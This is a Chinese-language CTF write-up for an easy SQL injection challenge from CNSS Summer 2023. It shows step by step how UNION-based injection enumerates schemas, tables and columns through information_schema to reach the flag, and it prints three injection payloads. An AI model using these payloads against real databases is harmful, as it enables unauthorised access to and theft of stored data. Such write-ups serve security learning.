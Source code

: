 # CNSS_Summer_2023

## [Easy] CNSS Database 1.0

从标题可以推测出这应该是一道sql注入的题目，先输入一个数字看看返回什么，发现返回了一个表的一条记录，然后先测试一下能不能进行联合查询UNION；

![image-20230913194951018](https://github.com/2aurora2/CTF-WriteUp/blob/main/CNSS_SUMMER_2023/image/01.png)

发现可以使用UNION，应该就是**手工注入**了，这里使用了一个version( )查询数据库的版本（这里select使用1，2因为由前面的表可知是3列，UNION联合查询需要有相同列数，如果遇到没有题目返回一条记录的话可以从1开始试试）；

![image-20230913195154301](https://github.com/2aurora2/CTF-WriteUp/blob/main/CNSS_SUMMER_2023/image/02.png)

之后就查询一下有哪些数据库，group_concat可以链接所有查询到的数据库名，发现有一个熟悉的数据库名cnss；

```sql
-1 UNION select 1,2,(select group_concat(schema_name) from information_schema.schemata);#
```

![image-20230913195910673](https://github.com/2aurora2/CTF-WriteUp/blob/main/CNSS_SUMMER_2023/image/03.png)

查询cnss数据库有哪些表，发现有一个wh3re_1s_fl4g的表；

```sql
-1 UNION select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='cnss');#
```

![image-20230913200253906](https://github.com/2aurora2/CTF-WriteUp/blob/main/CNSS_SUMMER_2023/image/04.png)

进而查询wh3re_1s_fl4g的表有哪些列名，发现只有fulage这一列；

```sql
-1 UNION select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='wh3re_1s_fl4g');#
```

![image-20230913200448878](https://github.com/2aurora2/CTF-WriteUp/blob/main/CNSS_SUMMER_2023/image/05.png)

最后就是查询wh3re_1s_fl4g表中fulage这一列的数据，最后得到flag；

![image-20230913200827655](https://github.com/2aurora2/CTF-WriteUp/blob/main/CNSS_SUMMER_2023/image/06.png)